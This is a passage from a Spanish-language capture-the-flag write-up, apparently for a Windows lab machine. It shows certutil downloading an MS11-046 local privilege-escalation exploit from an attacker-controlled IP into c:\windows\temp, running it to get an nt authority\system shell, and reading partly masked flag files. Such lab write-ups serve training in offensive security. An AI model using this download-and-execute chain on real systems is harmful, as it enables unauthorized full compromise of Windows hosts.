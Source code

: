 En la máquina víctima, nos dirigimos al directorio `c:\windows\temp` y descargamos el archivo.

```bash
c:\Users>cd c:\windows\temp
cd c:\windows\temp

c:\Windows\Temp>certutil -urlcache -f http://10.10.14.108/ms11-046.exe ms11-046.exe
certutil -urlcache -f http://10.10.14.108/ms11-046.exe ms11-046.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Una vez descargado, simplemente ejecutamos `MS11-046.exe` y obtendremos una shell como `nt authority\system`.

```bash
c:\Windows\Temp>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Finalmente, al tener acceso como `nt authority\system`, podemos leer las flags de la máquina alojadas en las rutas habituales.

```bash
c:\Users>type c:\Users\babis\Desktop\user.txt
type c:\Users\babis\Desktop\user.txt
33cc762964d9c12d***************

c:\Users>type c:\Users\Administrator\Desktop\root.txt
type c:\Users\Administrator\Desktop\root.txt
3336cfddafee62ed***************
```

!Happy Hacking¡
